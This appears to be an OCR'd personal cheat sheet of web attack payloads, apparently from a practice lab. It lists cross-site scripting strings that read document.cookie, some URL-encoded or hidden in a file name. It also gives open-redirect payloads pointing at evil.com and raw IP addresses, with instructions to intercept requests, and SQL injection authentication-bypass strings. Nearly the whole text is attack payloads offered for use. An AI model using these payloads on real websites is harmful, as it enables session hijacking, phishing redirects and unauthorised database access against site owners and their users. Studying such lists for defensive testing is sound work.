 # payload-list

######################
XXS PAYLOADS
######################
<script>alert(document.URL)</script>
"><<script>alert(document.cookie)</script>
<script>alert(document.URL)</script>yes@gmail.com
"><h1/onmouseover='\u0061lert(document.URL)'>yesspider
"><img src=x onerror=alert(document.cookie)>
"><h1/onmouseover='\u0061lert(document.URL)'>%00
Payload  = <script>alert(document.cookie)</script>

URL encode =  %20%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3c%2f%73%63%72%69%70%74%3e
In file name = “xxs.txt<img src=x onerror=alert(document.cookie)>”

DOM XSS:===
Payload  =  ?name=<img src=x onerror=alert=(document.cookie) >
PUT this payload after the URL and see that it gives you a popup.



################################
OPEN REDIRECT PYALOAD
################################


change the “open_redirect_1.php” to payload
payload = //evil.com

X-Forwarded-Host: evil.com//

Intercept the request and  put  payload after “&url=open_redirect_4_dashboard.php” 
 payload = ///evil.com


Intercept the request and  put  payload after “&url=open_redirect_6_dashboard.php” 
 payload = @evil.com

Intercept the request and  put  payload after “&url=open_redirect_7_dashboard.php” 
payload = &url=open_redirect_7_dashboard.php@8.8.8.8

Intercept the request and  put  payload after “&url=” 
 payload = 66.96.146.129


####################################
SQL INJECION
####################################


'OR''='
' OR '*'='*
")or("1")=("1
'=0--+
